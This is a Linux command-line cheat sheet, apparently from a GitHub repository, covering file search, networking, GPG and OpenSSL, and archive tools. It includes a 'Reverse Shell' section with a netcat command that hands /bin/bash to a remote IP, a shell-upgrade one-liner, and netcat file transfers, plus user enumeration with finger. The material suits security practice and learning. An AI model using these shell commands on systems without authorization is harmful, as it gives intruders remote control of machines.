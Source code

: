 ## Search and Navigation
- `pwd` : Display the current working directory.
- `lsblk` : List mounted disks and partitions.
- `locate <file_name>` : Search for a file in the system.
- `which <command_name>` : Show the path of a command's executable.
- `history` : Display the history of executed commands.
- `find / -name "*...*" 2>/dev/null`: Search a file in the system 

## Networking & Services
- `telnet <host> 80` : Test connection to a service.
- `finger @<ip>` : List the users on a remote machine.
- `finger fabiano@<ip>` : Get specific information about a user.
- `wget -r -np -nH --cut-dirs=0 http://192.168.1.100:8000/` : Download all files/folders from a directory hosted on a Python web server.
- `ss -tulpn`: Display all the open port.

## System
- `kill {pid}`: Kill a process.
- `export VAR=value` : Create or modify an environment variable and make it available to child processes.

## Crypto & Certificates
- `openssl x509 -in key.pem -text -noout` : Analyze a X.509 certificate.
- `gpg --homedir /your/path/to/gpg_key -d file.gpg` : Decrypt a GPG-encrypted file (requires the corresponding private key or passphrase).  
- `gpg --encrypt -r <recipient> file.txt` : Encrypt a file for a specific recipient using their public key.

## Databases--homedir
- `sqlite3 filedb.sqlite` : Start an SQLite session on a `.sqlite` file.

## File Information
- `file <file_name>` : Display the file type.

## Reverse Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Upgrade a reverse shell to a fully interactive shell.
- `nc -lvnp 4444`: Open port 4444
- `nc <ip> 4444 > file.txt`: Connect to a port on another machine and save the received data into file.txt 
- `nc -lvnp 4444 < file.txt`: Listen on port 4444 and send the contents of file.txt to any connected client.
- `nc <ip> 4444 -e /bin/bash`: Connect to the reverse shell with nc

## Compression & Decompression
- `tar -cf archive.tar folder/` : Create a TAR archive without compression.  
- `tar -xf archive.tar` : Extract a TAR archive without compression.  
- `tar -czf archive.tar.gz folder/` : Create a TAR archive compressed with Gzip.  
- `tar -xzf archive.tar.gz` : Extract a TAR archive compressed with Gzip.  
- `tar -cjf archive.tar.bz2 folder/` : Create a TAR archive compressed with Bzip2.  
- `tar -xjf archive.tar.bz2` : Extract a TAR archive compressed with Bzip2.  
- `tar -cJf archive.tar.xz folder/` : Create a TAR archive compressed with XZ.  
- `tar -xJf archive.tar.xz` : Extract a TAR archive compressed with XZ.  
- `gzip file.txt` : Compress a single file with Gzip, replacing the original file.  
- `gunzip file.txt.gz` : Decompress a Gzip file.  
- `bzip2 file.txt` : Compress a single file with Bzip2, replacing the original file.  
- `bunzip2 file.txt.bz2` : Decompress a Bzip2 file.  
- `xz file.txt` : Compress a single file with XZ, replacing the original file.  
- `unxz file.txt.xz` : Decompress an XZ file.  
- `zip -r archive.zip folder/` : Create a ZIP archive containing a folder and its contents. 
- `unzip archive.zip` : Extract the contents of a ZIP archive.  




